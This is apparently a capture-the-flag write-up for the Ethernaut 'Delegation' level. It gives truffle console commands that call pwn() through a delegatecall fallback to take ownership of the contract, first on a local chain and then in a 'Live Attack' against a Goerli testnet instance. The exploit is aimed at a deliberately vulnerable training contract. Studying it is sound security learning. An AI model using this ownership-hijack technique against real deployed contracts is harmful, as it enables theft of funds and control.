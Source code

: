 # Delegation

[Delegation](https://ethernaut.openzeppelin.com/level/0xF781b45d11A37c51aabBa1197B61e6397aDf1f78)

_Claim ownership of the instance given._



## Test
```BASH
> truffle develop
```

```JS
migrate
d1 = await Delegate.deployed()
d2 = await Delegation.deployed()
d3 = await Delegate.at(d2.address)

sender = accounts[5]
await d3.pwn({from: sender})
await d2.owner()
```

<BR />

## Live Attack
```BASH
truffle console --network goerli
```

```JS
d2 = await Delegation.at('0x115b0b955937EC808b9C4030868F15225A910B3A')
d3 = await Delegate.at('0x115b0b955937EC808b9C4030868F15225A910B3A')

// Make sure to get 0xCbB9660eA60B895443ef5001B968b6Ae4c0AaA18
sender = accounts[5]
await d3.pwn({from: sender})
await d2.owner()
```